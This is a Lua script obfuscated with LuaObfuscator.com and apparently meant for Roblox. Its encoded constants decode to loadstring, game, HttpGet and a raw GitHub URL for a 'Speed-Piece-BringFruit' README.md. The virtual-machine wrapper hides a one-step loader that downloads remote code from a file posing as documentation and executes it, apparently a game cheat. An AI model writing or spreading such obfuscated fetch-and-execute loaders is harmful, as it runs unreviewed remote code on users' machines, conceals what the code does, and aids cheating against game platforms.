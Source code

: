 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v84=0;while true do if (v84==0) then v19=v0(v3(v30,1,1));return "";end end else local v85=v2(v0(v30,16));if v19 then local v109=0;local v110;while true do if (v109==1) then return v110;end if (v109==0) then v110=v5(v85,v19);v19=nil;v109=1;end end else return v85;end end end);local function v20(v31,v32,v33) if v33 then local v86=0 -(1270 -(226 + 1044)) ;local v87;while true do if (v86==((0 -0) -0)) then v87=(v31/((3 -1)^(v32-(2 -1))))%((621 -(555 + 64))^(((v33-(932 -(857 + 74))) -(v32-(569 -(367 + 201)))) + (928 -((331 -(32 + 85)) + 713)))) ;return v87-(v87%(1 + 0)) ;end end else local v88=0 + 0 ;local v89;while true do if (v88==(877 -(282 + 595))) then v89=((1607 + 32) -(1523 + 114))^(v32-(1 + 0)) ;return (((v31%(v89 + v89))>=v89) and (1 -0)) or ((237 + 828) -(68 + 997)) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (959 -(892 + 65)) );v18=v18 + (4 -2) ;return (v36 * (472 -216)) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + (4 -1) );v18=v18 + 4 ;return (v40 * (16777566 -((213 -126) + 263))) + (v39 * (65716 -(67 + 113))) + (v38 * (188 + 68)) + v37 ;end local function v24() local v41=v23();local v42=v23();local v43=1 + 0 ;local v44=(v20(v42,3 -2 ,972 -(802 + 150) ) * (((24 -17) -(864 -(814 + 45)))^(85 -53))) + v41 ;local v45=v20(v42,37 -16 ,23 + 8 );local v46=((v20(v42,1029 -(915 + 82) )==(2 -1)) and  -(1 + 0)) or (1 -0) ;if (v45==0) then if (v44==(0 -0)) then return v46 * 0 ;else local v111=438 -(145 + 293) ;while true do if (v111==(430 -(44 + (950 -564)))) then v45=1487 -(998 + 488) ;v43=1187 -(58 + 1011 + 118) ;break;end end end elseif (v45==((1641 + 3002) -2596)) then return ((v44==((885 -(261 + 624)) -0)) and (v46 * ((1 + 0)/(0 -(0 -0))))) or (v46 * NaN) ;end return v8(v46,v45-(4258 -3235) ) * (v43 + (v44/((2 + 0)^(189 -137)))) ;end local function v25(v47) local v48=1080 -(1020 + 48 + 12) ;local v49;local v50;while true do if (v48==(1425 -(630 + 793))) then v50={};for v112=3 -2 , #v49 do v50[v112]=v2(v1(v3(v49,v112,v112)));end v48=14 -11 ;end if ((2 + 1)==v48) then return v6(v50);end if (v48==(3 -2)) then v49=v3(v16,v18,(v18 + v47) -(1748 -(760 + (2042 -(87 + 968)))) );v18=v18 + v47 ;v48=1915 -(1789 + 124) ;end if (v48==(766 -(745 + 21))) then v49=nil;if  not v47 then local v118=(0 -0) + 0 ;while true do if (v118==(0 -(0 + 0))) then v47=v23();if (v47==((0 -0) -0)) then return "";end break;end end end v48=1 + (1413 -(447 + 966)) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return function(v90,v91,v92,v93,v94,v95,v96,v97) local v90=(function() return 0 + 0 ;end)();local v91=(function() return;end)();local v93=(function() return;end)();while true do if (v90==(1637 -(195 + 1442))) then local v119=(function() return 0 -0 ;end)();local v120=(function() return;end)();while true do if (v119~=0) then else v120=(function() return 0;end)();while true do if (v120==0) then v91=(function() return v92();end)();v93=(function() return nil;end)();v120=(function() return 1 + 0 ;end)();end if ((1 + 0)~=v120) then else v90=(function() return  #"]";end)();break;end end break;end end end if ( #"~"~=v90) then else if (v91== #"~") then v93=(function() return v92()~=(396 -(115 + 281)) ;end)();elseif (v91==2) then v93=(function() return v94();end)();elseif (v91== #"19(") then v93=(function() return v95();end)();end v96[v97]=(function() return v93;end)();break;end end return v90,v91,v92,v93,v94,v95,v96,v97;end;end)();local v52=(function() return function(v98,v99,v100) local v101=(function() return 0;end)();while true do if (v101==0) then v98[v99-#"/" ]=(function() return v100();end)();return v98,v99,v100;end end end;end)();local v53=(function() return {};end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {v53,v54,nil,v55};end)();local v57=(function() return v23();end)();local v58=(function() return {};end)();for v66= #" ",v57 do FlatIdent_781F8,Type,v21,Cons,v24,v25,v58,v66=(function() return v51(FlatIdent_781F8,Type,v21,Cons,v24,v25,v58,v66);end)();end v56[ #"xnx"]=(function() return v21();end)();for v67= #"[",v23() do local v68=(function() return v21();end)();if (v20(v68, #"[", #"{")==0) then local v105=(function() return 0;end)();local v106=(function() return;end)();local v107=(function() return;end)();local v108=(function() return;end)();while true do if ((1 + 0)==v105) then local v123=(function() return 0 -0 ;end)();while true do if (1~=v123) then else v105=(function() return 7 -5 ;end)();break;end if ((867 -(550 + 317))~=v123) then else v108=(function() return {v22(),v22(),nil,nil};end)();if (v106==0) then local v150=(function() return 0 -0 ;end)();while true do if (v150==(0 -0)) then v108[ #"asd"]=(function() return v22();end)();v108[ #"asd1"]=(function() return v22();end)();break;end end elseif (v106== #"}") then v108[ #"gha"]=(function() return v23();end)();elseif (v106==2) then v108[ #"xxx"]=(function() return v23() -(2^16) ;end)();elseif (v106== #"xnx") then local v190=(function() return 0;end)();local v191=(function() return;end)();while true do if (v190~=0) then else v191=(function() return 0;end)();while true do if (v191~=(285 -(134 + 151))) then else v108[ #"gha"]=(function() return v23() -((1667 -(970 + 695))^16) ;end)();v108[ #"http"]=(function() return v22();end)();break;end end break;end end end v123=(function() return 1;end)();end end end if (v105~=0) then else local v124=(function() return 0 -0 ;end)();local v125=(function() return;end)();while true do if (v124==(1990 -(582 + 1408))) then v125=(function() return 0 -0 ;end)();while true do if (v125~=(0 -0)) then else v106=(function() return v20(v68,7 -5 , #"nil");end)();v107=(function() return v20(v68, #"0313",6);end)();v125=(function() return 1;end)();end if (v125==1) then v105=(function() return 1825 -(1195 + 629) ;end)();break;end end break;end end end if (v105==(2 -0)) then if (v20(v107, #">", #":")== #".") then v108[2]=(function() return v58[v108[243 -(187 + 54) ]];end)();end if (v20(v107,782 -(162 + 618) ,2 + 0 )== #"!") then v108[ #"nil"]=(function() return v58[v108[ #"91("]];end)();end v105=(function() return 2 + 1 ;end)();end if (v105==(6 -3)) then if (v20(v107, #"gha", #"91(")== #"|") then v108[ #".com"]=(function() return v58[v108[ #"asd1"]];end)();end v53[v67]=(function() return v108;end)();break;end end end end for v69= #"<",v23() do v54,v69,v28=(function() return v52(v54,v69,v28);end)();end return v56;end local function v29(v60,v61,v62) local v63=v60[1];local v64=v60[2];local v65=v60[4 -1 ];return function(...) local v70=v63;local v71=v64;local v72=v65;local v73=v27;local v74=1 + 0 ;local v75= -((1126 + 511) -(1373 + 263));local v76={};local v77={...};local v78=v12("#",...) -(1 + 0) ;local v79={};local v80={};for v102=0 -0 ,v78 do if ((v102>=v72) or (3275==1804)) then v76[v102-v72 ]=v77[v102 + (1 -0) ];else v80[v102]=v77[v102 + (1385 -(746 + 638)) ];end end local v81=(v78-v72) + 1 + 0 ;local v82;local v83;while true do v82=v70[v74];v83=v82[1 -0 ];if (v83<=(344 -(218 + 123))) then if (v83<=(1582 -(1535 + 46))) then if (v83==(0 + 0)) then local v130=0 + 0 ;local v131;local v132;local v133;local v134;local v135;while true do if (v130==((1823 -(1043 + 214)) -((1156 -850) + 254))) then v75=(v133 + v135) -(1 + 0) ;v131=0;for v181=v135,v75 do v131=v131 + 1 ;v80[v181]=v132[v131];end v74=v74 + (1 -0) ;v130=1474 -(899 + 568) ;end if ((v130==3) or (1417>3629)) then v82=v70[v74];v135=v82[2];v134=v80[v82[3]];v80[v135 + 1 ]=v134;v130=3 + 1 ;end if ((4795>402) and (v130==4)) then v80[v135]=v134[v82[4]];v74=v74 + (2 -1) ;v82=v70[v74];v80[v82[1214 -(323 + 889) ]]=v82[606 -(268 + 335) ];v130=295 -((161 -101) + 230) ;end if (v130==(581 -((1006 -(361 + 219)) + 146))) then do return;end break;end if ((4813>3565) and (v130==(1 + 4))) then v74=v74 + 1 ;v82=v70[v74];v135=v82[1458 -(282 + 1174) ];v132,v133=v73(v80[v135](v13(v80,v135 + (812 -(569 + 242)) ,v82[8 -5 ])));v130=1 + (325 -(53 + 267)) ;end if ((3912==3912) and (v130==(1032 -(706 + 318)))) then v82=v70[v74];v80[v82[1253 -(721 + 530) ]]();v74=v74 + (1272 -(945 + 326)) ;v82=v70[v74];v130=22 -13 ;end if (v130==(7 + 0)) then v82=v70[v74];v135=v82[2];v80[v135]=v80[v135](v13(v80,v135 + ((159 + 542) -(271 + 429)) ,v75));v74=v74 + (414 -(15 + 398)) + 0 ;v130=(2490 -(18 + 964)) -(1408 + 92) ;end if ((1086 -((1735 -1274) + 625))==v130) then v131=nil;v132,v133=nil;v134=nil;v135=nil;v130=1289 -(993 + 295) ;end if (v130==(1 + 1)) then v74=v74 + (1172 -(418 + 753)) ;v82=v70[v74];v80[v82[1 + 1 ]]=v62[v82[1 + 0 + 2 ]];v74=v74 + 1 + 0 ;v130=1 + 2 ;end if ((2821<=4824) and (v130==1)) then v80[v82[2]]={};v74=v74 + (530 -(406 + 123)) ;v82=v70[v74];v80[v82[1771 -(1749 + 20) ]]=v62[v82[1 + 2 + 0 ]];v130=1324 -(1249 + 73) ;end end else do return;end end elseif ((1738<=2195) and (v83==(1 + 1))) then v80[v82[2]]=v62[v82[1148 -(466 + 679) ]];else v80[v82[(854 -(20 + 830)) -2 ]]();end elseif (v83<=(14 -9)) then if (v83>4) then v80[v82[1902 -(83 + 23 + 1794) ]]={};else v80[v82[1 + (127 -(116 + 10)) ]]=v82[1 + 1 + 1 ];end elseif (v83<=(17 -11)) then local v141=0;local v142;local v143;while true do if (v141==0) then v142=v82[5 -3 ];v143=v80[v82[117 -(4 + 110) ]];v141=585 -(57 + 527) ;end if (v141==1) then v80[v142 + (1428 -(41 + 1386)) ]=v143;v80[v142]=v143[v82[4]];break;end end elseif (v83>7) then local v144=v82[105 -(17 + (824 -(542 + 196))) ];local v145,v146=v73(v80[v144](v13(v80,v144 + 1 + 0 ,v82[(12 -6) -3 ])));v75=(v146 + v144) -(2 -1) ;local v147=(49 + 117) -(122 + 44) ;for v178=v144,v75 do v147=v147 + (1 -0) ;v80[v178]=v145[v147];end else local v148=0 -0 ;local v149;while true do if ((0 + 0)==v148) then v149=v82[1 + 1 ];v80[v149]=v80[v149](v13(v80,v149 + ((1 + 0) -0) ,v75));break;end end end v74=v74 + (66 -(30 + 13 + 22)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403593Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F4165676F6E612F53702Q65642D50692Q65632D4272696E6746727569742F726566732F68656164732F6D61696E2F524541444D452E6D6400099Q003Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
